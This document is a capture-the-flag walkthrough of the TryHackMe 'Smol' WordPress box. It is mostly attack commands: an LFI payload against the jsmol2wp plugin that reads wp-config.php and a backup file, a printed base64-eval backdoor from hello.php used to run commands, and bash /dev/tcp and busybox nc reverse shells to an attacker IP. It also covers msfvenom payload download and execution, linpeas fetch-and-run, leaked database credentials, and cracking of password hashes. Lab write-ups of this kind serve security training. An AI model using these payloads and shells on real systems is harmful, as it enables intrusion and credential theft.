 > [!NOTE]
> https://tryhackme.com/room/smol
> At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.


>IP:10.10.142.248

# Recon

```
sudo nmap -Pn -p- 10.10.142.248 -sC -sV --vv -T5 
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503213144.png)


```
echo "10.10.142.248    smol.thm www.smol.thm" >> /etc/hosts 
```


```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://www.smol.thm/FFUZ -ic -c
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503212544.png)

# Creds
```
admin@smol.thm
Jose Mario Llado Marti
by wordpress user
```

```
wpscan --url http://www.smol.thm/ -U admin -P /usr/share/wordlists/rockyou.txt 
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503213831.png)
http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503214535.png)

```
https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt
```

# LFI
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503221606.png)
```
wpuser:kbLSF2Vop#lw3rjDZ629*Z%G
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503221950.png)
http://www.smol.thm/wp-admin/post.php?post=58&action=edit
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503225157.png)

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503231051.png)
```
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503231041.png)

# Exploitation

http://www.smol.thm/wp-admin/profile.php?cmt=1&cmd=id
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503232009.png)

/usr/bin/bash -i &>/dev/tcp/10.11.134.170/1337 <&1' 
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503232447.png)

```
!!!!!!!!!!!!!!!!!!!!!!!!!!!!
which wget
msfvenom -p linux/x64/shell_reverse_tcp RHOST=10.11.134.170 LPORT=1337 -f elf > shell.elf
python3 -m http.server 80 
wget%20http://10.11.134.170:80/shell.elf%20-O%20/tmp/shell.elf
ls -la /tmp/shell.elf
chmod%20%2Bx%20%2Ftmp%2Fshell.elf
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```

```
busybox%20nc%2010.11.134.170%204444%20-e%20bash
```

# LPE
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

Vulnerable to CVE-2021-3560
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504000601.png)
-rw-r--r--  1 root root 291970 Mar 29  2024 wp_backup.sql

```
!!!!!!!!!!!!!!!
wget "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../../../../opt/wp_backup.sql" -O /home/kali/Desktop/wp_backup.sql
!!!!!!!!!!!!!!!!
```

```
mysql -u wpuser -h 127.0.0.1 -p
kbLSF2Vop#lw3rjDZ629*Z%G
```

## mysql
```
show databases;
use wordpress;
USE wordpress;
select * from wp_users;
```

## Users
```
think:x:1000:1000:,,,:/home/think:/bin/bash
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```
# users and hash
```
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
```
```
$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```
## hashcat
```
hashcat -h | grep "phpass"   
hashcat -m 400 hash /usr/share/wordlists/rockyou.txt
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504011204.png)

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504011855.png)
# FLAG1
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504012052.png)

## SSH key
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504013949.png)

```
chmod 700 key
ssh -i key think@10.10.162.27
```

# User gege
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504015529.png)
```
su gege
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504015713.png)
## ZIP archive
```
python3 -m http.server 4443
```

```
http://10.10.162.27:4443/wordpress.old.zip
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504020200.png)

```
zip2john wordpress.old.zip > zip_hash.txt
john zip_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022100.png)
## wp-config
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022244.png)
## User xavi
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022400.png)
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022510.png)
# Flag2
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022614.png)